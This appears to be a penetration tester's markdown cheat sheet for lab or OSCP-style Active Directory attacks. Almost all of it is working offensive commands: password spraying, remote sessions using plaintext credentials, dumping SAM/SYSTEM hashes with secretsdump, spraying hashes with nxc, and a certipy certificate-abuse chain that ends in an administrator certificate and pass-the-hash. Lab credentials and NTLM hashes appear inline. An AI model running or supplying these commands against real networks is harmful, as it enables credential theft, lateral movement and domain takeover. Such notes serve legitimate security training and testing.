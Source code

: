 ## DomainPasswordSpray.ps1
```powershell
Import-Module .\DomainPasswordSpray.ps1
```
```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

---
                                                                                                                           
PSSession script to to connect to another windows device in the internal network:
	`$User = "wario"`
	`$Password = ConvertTo-SecureString "Mushroom!" -AsPlainText -Force`
	`$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password`
	`$Session = New-PSSession -ComputerName client02.medtech.com -Credential $Credential`
	`Invoke-Command -Session $Session -ScriptBlock {`
	    `hostname }`

`winrs -r:http://prod01.medtech.com:5985 -u:leon -p:"rabbit:)" "cmd"`



#### Getting hashes from SAM/SYSTEM Files
	- C:\windows.old\Windows\System32\SAM
		- `download C:\windows.old\Windows\System32\SAM /home/daniel/OSCP_A/SAM`
			- evil-winrm command to download file to kali
			- make sure to include whole filepath with name of file 'SAM' at the end
	- C:\windows.old\Windows\System32\SYSTEM
		- `download C:\windows.old\Windows\System32\SYSTEM /home/daniel/OSCP_A/SYSTEM`
```
secretsdump.py -sam SAM -system SYSTEM local
```


`arp -a`


winrs

spray hashes:
`nxc winrm hosts.txt -u users.txt -H hashes.txt --continue-on-success`

search for domain certificates using certipy
```
certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.186.213 
```
- returns a bunch of info on the domain, can be put into bloodhound

if "Domain Computers" has Enrollment Rights and you have access to a domain-joined machine, search for the `krb5.keytab` file, usually stored at `/etc/krb5.keytab` on linux
- transfer to home machine and run:
```
python3 keytabextract.py krb5.keytab
```
- get the ntlm hash and use with certipy:
```
certipy req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.232.21" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug
```
- make sure IPs are listed in `/etc/hosts`
- `-template 'HYBRIDCOMPUTERS'` is from certipy.txt output file
- should save certificate and private key to administrator.pfx
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.232.21
```
- get administrator hash to PTH with evil-winrm or whichever shell